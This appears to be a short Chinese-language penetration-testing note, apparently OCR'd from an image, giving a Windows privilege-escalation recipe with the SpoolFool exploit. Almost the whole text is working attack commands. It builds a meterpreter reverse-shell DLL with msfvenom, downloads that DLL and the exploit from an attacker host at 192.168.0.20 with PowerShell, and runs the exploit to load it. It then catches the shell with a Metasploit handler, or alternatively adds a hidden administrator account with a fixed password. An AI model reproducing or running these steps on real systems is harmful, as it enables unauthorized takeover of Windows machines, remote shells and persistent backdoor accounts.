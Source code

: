 	https://github.com/ly4k/SpoolFool
	>whoami /user /groups 隶属NT AUTHORITY\INTERACTIVE组
	生成dll
	>msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f dll LHOST=192.168.0.20 LPORT=9501 > reverse_64bit.dll
	靶机执行
	>powershell -c iwr http://192.168.0.20/reverse_64bit.dll -outf \Users\Public\reverse.dll
	>powershell -c iwr http://192.168.0.20/SpoolFool.exe -outf \Users\Public\SpoolFool.exe
	>SpoolFool.exe -dll reverse.dll
	攻击机
	>msfconsole
	>use multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>set LHOST 192.168.0.20
	>set LPORT 9501
	>run
	或直接添加administrators组用户
	>SpoolFool.exe -dll Adduser.dll
	添加administrators组用户admin/Passw0rd!